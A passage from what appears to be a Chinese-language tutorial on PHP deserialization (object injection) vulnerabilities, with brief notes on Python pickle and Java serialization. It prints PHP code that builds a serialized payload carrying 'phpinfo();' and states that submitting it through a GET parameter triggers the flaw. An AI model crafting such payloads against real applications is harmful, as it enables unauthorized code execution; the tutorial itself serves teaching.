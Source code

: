 ```php
	function __construct(){
		$this->ser = new cls2();
	}
}

class cls2{
	var $value = 'phpinfo();';
}

print_r(serialize(new cls1()))
```
```php
O:4:"cls1":1:{s:3:"ser";O:4:"cls2":1:{s:5:"value";s:10:"phpinfo();";}}
```
传入`$GET['cls']`中既可以触发漏洞
![](php反序列化漏洞/1.png)

# 其他编程语言中的反序列化
其他编程语言也存在对应的序列化和反序列化功能  
触发的原理类似  

Python：
```py
pickle.dump(obj, file, protocol=None, *, fix_imports=True) # 序列化

pickle.load(file, *, fix_imports=True, encoding='ASCII', errors='strict') #反序列化
```
  
Java:
java不是很了解，引用一下别人的
> 在Java中，只要一个类实现了java.io.Serializable接口，那么它就可以被序列化。
> 通过ObjectOutputStream和ObjectInputStream对对象进行序列化及反序列化




# Reference Link
https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
https://www.hackersb.cn/shenji/239.html
